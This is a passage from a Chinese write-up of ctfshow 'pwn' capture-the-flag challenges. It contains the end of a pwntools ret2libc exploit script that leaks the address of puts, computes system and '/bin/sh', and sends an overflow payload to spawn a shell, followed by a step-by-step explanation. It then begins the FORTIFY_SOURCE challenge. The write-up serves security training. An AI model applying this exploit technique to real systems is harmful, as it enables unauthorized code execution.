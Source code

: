 ```python
puts_addr = u32(p.recv(4)) 

libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')
ctfshow_addr = base_addr + elf.sym['ctfshow']

payload = b'a' * (0x88 + 0x04) + p32(system_addr) + p32(ctfshow_addr) + p32(binsh_addr)
p.sendline(payload)
p.interactive()
```



- **获取程序基地址**：
  从服务器接收数据，将其转换为十六进制整数，得到`main`函数在目标内存中的真实地址。然后通过这个真实地址与本地`ELF`文件中`main`函数地址相减，计算出程序在目标服务器中的基地址。
- **计算关键函数和地址信息**：
  基于计算出的基地址，求出`puts`函数在程序中的`PLT`（过程链接表）地址、`GOT`（全局偏移表）地址以及`ctfshow`函数的地址，同时计算出`ebx`的值，该值用于后续栈溢出利用中控制程序执行流程。
- **构造和发送第一个 payload 用于信息泄露**：
  构造`payload0`，先填充`132`个`a`字符（用于填充栈空间到合适位置），接着是`ebx`的值、额外填充、`puts`函数的`PLT`地址、`main`函数的真实地址和`puts`函数的`GOT`地址。将这个`payload`发送到服务器，目的是通过`puts`函数泄露`puts`在内存中的实际地址。
- **接收泄露信息并计算`libc`相关地址**：
  从服务器接收`4`个字节数据并转换为`32`位无符号整数，得到`puts`地址。利用`LibcSearcher`根据`puts`地址查找`libc`版本，进而计算出`libc`基地址，再根据`libc`基地址计算出`system`函数和`/bin/sh`字符串在内存中的地址。
- **构造和发送第二个 payload 获取 shell**：
  构造`payload`，填充一定长度数据后，包含`system`函数地址、`ctfshow`函数地址（可能用于返回地址相关的控制）和`/bin/sh`字符串地址。发送此`payload`到服务器，最后进入交互模式，期望获取目标服务器的 shell，实现对目标的控制。



## 32. pwn32（Fortify=0）

FORTIFY_SOURCE=0：

禁用 Fortify 功能。 不会进行任何额外的安全检查。 可能导致潜在的安全漏洞。



![image-20241031145222755](../_media/image-20241031145222755.png)

习惯不要忘记，虽然很确定考的是Fortify的知识，但是check一下是做题的前提。

ida打开：

